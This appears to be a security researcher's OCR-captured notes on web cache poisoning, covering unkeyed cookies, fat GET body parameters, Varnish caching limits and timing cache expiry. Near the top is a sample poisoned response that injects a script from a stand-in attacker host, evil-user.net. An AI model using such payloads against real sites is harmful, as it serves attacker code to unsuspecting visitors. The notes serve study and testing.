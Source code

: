     HTTP/1.1 200 OK
    <script src="https://evil-user.net/static/analytics.js"></script>

# Exploit cookie-handling vulnerabilities
    GET /blog/post.php?mobile=1 HTTP/1.1
    Host: innocent-website.com
    Cookie: language=pl;
Notice the unkeyed cookie language=pl. when cached, and served to 
en-gb users, i.e a mild web cache poisoning

# GET body parameters (fat GET) vulnerabilities
This is where the web app allows GET request 
with body. This is not SPEC compliant and can 
sometimes result in the web server mistakenly fetching 
the body parameters when it was trying to fetch query parameters. 
I hope you get the cache poisoning implication. The Cache Proxy uses the query
parameters as part of the cache key but the returned response was actually 
influenced by the body params. 
Affected [Tornado](https://www.tornadoweb.org/en/stable/)

    Do not trust GET request bodies
    Cloudflare caches contents of GET request bodies, but they are not included in the cache key. 
    GET request bodies should be considered untrusted and should not modify the contents of a response. 
    If a GET body can change the contents of a response, consider bypassing cache or using a POST request.

# Sometimes web apps gives precedence to the body parameters
Yeah, right? Super weird. This can lead to the Cache proxy caching 
a resource identified by the body params instead of the query params,
meanwhile the query params becomes part of the cache key, an example of 
what james kettle described in Practical Web Poisoning
[Snyk](https://snyk.io/blog/cache-poisoning-in-popular-open-source-packages/)

# Specific Cache Proxy Behaviors 
## Varnish 
404 and 301 is cached for 15 mins
Max Cache size 10mb 
[Varnish Docs](https://docs.acquia.com/acquia-cloud-platform/using-varnish)

# Web Cache Entanglement
## Discreet Poisoning: 
Timing the resource to determine exactly when a cache expires 
to send a req to potential get a new cache. Headers like max-age offers an insight into when the cache expires. 
